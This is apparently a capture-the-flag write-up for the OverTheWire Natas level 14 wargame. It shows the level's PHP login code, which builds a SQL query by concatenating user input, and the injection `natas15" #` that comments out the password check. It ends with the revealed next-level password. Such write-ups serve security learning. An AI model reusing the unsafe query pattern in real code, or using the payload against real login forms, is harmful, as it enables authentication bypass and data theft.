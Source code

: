 Here's come the SQL exploitation:
```php
<?php
if(array_key_exists("username", $_REQUEST)) {
	$link = mysqli_connect('localhost', 'natas14', '<censored>');
	mysqli_select_db($link, 'natas14');
	
	$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
	if(array_key_exists("debug", $_GET)) {
		echo "Executing query: $query<br>";       }          if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
		echo "Successful login! The password for natas15 is <censored><br>";
	} else {
		echo "Access denied!<br>";
	}
mysqli_close($link);
} else {
?>
```

The `$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";` can definitely be used for SQL injection

This is checking for the correct username and password inside the sql query. What we can do is try to comment out the password checking part, that way, the sql query will be just a simple lookup query.

So in the username input field, I inputed this: `natas15" #` and I inputed some random strings into the password as it doesn't matter what my password input is.

The output:
```
Successful login! The password for natas15 is TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
```